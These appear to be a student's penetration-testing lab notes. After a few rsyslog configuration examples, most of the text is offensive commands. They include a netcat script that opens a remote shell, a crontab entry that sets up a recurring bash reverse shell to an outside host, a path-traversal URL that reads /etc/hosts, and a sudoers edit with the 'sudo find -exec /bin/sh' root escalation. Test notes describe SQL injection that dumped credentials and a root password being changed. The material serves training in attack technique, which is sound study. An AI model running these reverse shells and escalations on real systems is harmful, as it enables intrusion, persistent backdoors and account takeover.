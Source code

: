 ```
Utilizes severity (priority) and facility levels
Rules filter out, and can use keyword or number
<facility>.<priority>
```
# Rsyslog Examples
```
kern.*                                                # All kernel messages, all severities
mail.crit
cron.!info,!debug
*.*  @192.168.10.254:514    (one @ is udp @@ is tcp)                                                # Old format
*.* action(type="omfwd" target="192.168.10.254" port="514" protocol="udp")   # New format
#mail.*
```
RFC 5424
# opening a listening port on box in a file
```
!/bin/bash
nc  10.50.27.207 9999 -e /bin/bash
```
# nc on device to listen from
```
nc -lvnp 9999
```
# crontab -e
```
* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.28.135/33403 0>&1' (creates a reverse shell every second)
````
find a suppicious file to use when doing the suid and sgid lookup, cd into the direcctory and run ./<file> and see what it does, run  /etc/sudoers "comrade ALL=(ALL:ALL) ALL" into command and see if it works, finally find the other command to exploit the machine to get higher privlege with sudo and you are now root

```
to find other websites look in /etc/host
http://10.50.42.36/getcareers.php?myfile=../../../../etc/hosts
```
# Test notes
```
10.50.42.36 had a website and ssh. by using a --script=http-enum found a script that had a user and was able to log into the box with user2, ip neighbor gave jack shit so look into /etc/hosts to find other boxes.
192.168.28.181 was just webserver that we used sql injection from radio buttons to exploit. by using the golden rule we were able to see all user credentials for the rest of this challenge. there was no ssh users to log onto.
192.168.28.172 found user Aaron to log in to the box from the 181 using sql injection. when i got onto the box i used sudo -l to see permissions and found that the /bin/find command was available with no password. form there i used sudo find . -exec /bin/sh \; -quit to get root permissions. Using passwd i changed the password to 12345QWERT!@.
When getting on a box make sure to run for i in {97..130}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done, this will find what other devices are in the network from enumerating /etc/host or ip neighbor
```
